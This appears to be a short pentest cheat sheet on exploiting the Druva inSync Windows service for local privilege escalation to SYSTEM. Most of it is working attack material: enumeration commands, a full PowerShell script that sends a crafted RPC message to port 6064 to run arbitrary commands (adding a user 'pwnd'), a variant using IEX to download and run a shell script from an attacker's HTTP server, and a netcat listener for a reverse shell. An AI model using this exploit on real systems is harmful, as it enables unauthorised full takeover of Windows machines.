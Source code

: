 # Vulnerable Services (Druva inSync).md

Sometimes, Windows computers have programs running that have security bugs. One such program is Druva inSync, which runs with very high privileges (SYSTEM user).

If this program is installed and running, we can send it special commands to get full control of the computer.

### Steps and Commands to Exploit Druva inSync Vulnerability
#### 1. Check Installed Programs on Target
Open Command Prompt or PowerShell on the target machine and run:
```
wmic product get name
```
Look for Druva inSync in the output.

#### 2. Check if Druva Service is Running and Listening on Port 6064
Run this to find if port 6064 is open:
```
netstat -ano | findstr 6064
```
Note the PID of the process listening on that port.

Find the process name by PID (replace 3324 with your PID):
```
get-process -Id 3324
```

Check if the Druva service is running:
```
get-service | ? {$_.DisplayName -like 'Druva*'}
```

#### 3. Run PowerShell Exploit Script on Target
Open PowerShell as administrator and allow script execution temporarily:
```
Set-ExecutionPolicy Bypass -Scope Process
```

Create and run this PowerShell script on the target (change $cmd as needed):
```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add" # Example command: add new user "pwnd"

$s = New-Object System.Net.Sockets.Socket(
[System.Net.Sockets.AddressFamily]::InterNetwork,
[System.Net.Sockets.SocketType]::Stream,
[System.Net.Sockets.ProtocolType]::Tcp
)

$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)00`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\Windows\System32\cmd.exe /c $cmd")
$length = [System.BitConverter]::GetBytes($command.Length)

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

#### 4. (Optional) Use Reverse Shell Instead of Adding a User
Prepare a PowerShell reverse shell script shell.ps1 on your attacker machine.

Start a Python HTTP server in the folder containing shell.ps1:
```
python3 -m http.server 8080
```

Modify $cmd in the exploit script on the target:
```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<YOUR-IP>:8080/shell.ps1')"
```
Replace <YOUR-IP> with your attack machine IP.

#### 5. Start Netcat Listener on Attacker Machine
```
nc -lvnp 9443
```

### 6. Run the Exploit Script on the Target
After running the PowerShell exploit, you should receive a shell running as SYSTEM on the target machine.
